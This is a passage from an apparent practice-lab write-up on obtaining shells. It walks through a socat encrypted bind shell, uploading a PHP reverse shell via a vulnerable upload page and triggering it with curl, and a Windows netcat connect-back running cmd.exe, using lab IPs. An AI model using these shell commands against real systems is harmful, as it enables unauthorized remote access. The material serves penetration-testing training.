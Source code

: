 **Bind-Shell (Linux)**

```bash
# Listener
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 EXEC:/bin/bash

# Connect Back
socat OPENSSL:10.10.100.173:4444,verify=0 -
```

<img width="1791" height="651" alt="image" src="https://github.com/user-attachments/assets/5bc39478-99ae-4af2-b75b-d1d763882619" />

### Webshell

Use built-in webshells in linux: `/usr/share/webshells/php/php-reverse-shell.php` Then, change the connection back IP and the listening port. 

<img width="840" height="722" alt="image" src="https://github.com/user-attachments/assets/87e4dfe0-517b-4d93-82ca-54dd5f3c2eb8" />

View the page vulnerable to file uploading, and upload your reverse shell PHP file.

<img width="1297" height="717" alt="image" src="https://github.com/user-attachments/assets/9436edaa-a46d-4ff6-ac4b-8077ed562f32" />

Access the uploaded file via:

```bash
curl http://10.10.100.173/uploads/php-reverse-shell.php
```

And at the same time, start the listener

```bash
nc -lvnp 4444
```

Once gained a shell, I stabilized with Python

<img width="1833" height="737" alt="image" src="https://github.com/user-attachments/assets/054237b1-f569-4185-ae39-7c325ce84037" />

## Windows Practice box

### Netcat

```bash
# Attacker (Listener)
nc -lvnp 4444

# Target (Connect back)
nc 10.10.148.61 4444 -e "cmd.exe"
```

<img width="1827" height="768" alt="image" src="https://github.com/user-attachments/assets/ad8c4b45-5b2d-4d06-955a-8592d42654d2" />

### Netcat Shell Stabilization
